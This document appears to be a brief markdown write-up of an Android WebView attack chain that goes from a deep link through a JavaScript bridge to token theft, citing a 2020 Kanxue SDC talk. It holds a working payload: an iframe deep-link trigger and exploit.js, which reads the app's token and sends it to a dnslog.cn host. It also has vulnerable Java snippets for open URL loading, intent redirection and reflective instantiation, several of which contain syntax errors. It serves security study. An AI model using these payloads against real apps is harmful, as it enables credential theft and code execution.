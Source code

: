 ## Process
```mermaid
graph TD;
    Evil-html-->Call-by-DeepLink-Scheme;
    Call-by-DeepLink-Scheme-->Activity;
    Activity-->WebView;
    WebView-->Execute-JS;
    XSS-in-WhiteList-->Execute-JS;
    Execute-JS-->JsInterface;
    JsInterface-->window.getToken;
    JsInterface-->window.downloadFile;
    window.getToken-->Java-interface;
    window.downloadFile-->Java-interface;
```
## payload
- Evil.html
```html
<iframe src= "jayway://openapp/activity?param= {"activity": "com.jayway.JsBridge", "url": "http://whitelist.com/xss=exploit.js"} ">
```
- exploit.js
```javascript
function evil(){
   var data = window.JsInterface.getToken();
   document.body.appendCild(document.createElement("img")).src= "http://xx.dnslog.cn?data=" + data;
  }
```
- Result: Accesslog of dnslog.cn
```
 GET /data={Token="xxxxx"}
```

## Code
- DeepLink Attack Input
```java
public static deeplink(){
 Intent intent = this.getIntent();
 Uri uri = intent.getData();
 String scheme = uri.getScheme();
 String host = uri.getHost();
 if (scheme = "jayway" && host = "openapp") 
    param = uri.getQueryParameter("param");
}
   WebView webView = new Webview();
   WebSettings webSettings = webView.getSettings();
   webSettings.setJavaScriptEnabled(true);
# case 1 : parse any url  
   webView.loadUrl(param);
# case 2 : load any activity by deeplink
   Intent intent2 = new Intent();
   intent2.setData(Uri.parse(param));  #User-controlled
   this.startActivity(intent2);
```

- Malicious Activity
```java
private boolean rce(){
 Intent intent = this.getgetIntent();
 String str = intent.getStringExtra("param2");
 this.a = Class.forName(str).newInstance;
}
```

- JsBridge
```java
1. Get sensitive info
@JavascriptInterface
public String getKey(){
 if (com.jayway.utils.isWhiteList(this.url)){
   String json = new JsonObject();
   String token = com.jayway.info.getInstance().getToken();
   json.put("token",token)
   return json.toString();  
  }
}
```




- [2020 看雪SDC议题回顾 | Android WebView安全攻防指南2020](https://zhuanlan.kanxue.com/article-14155.htm)
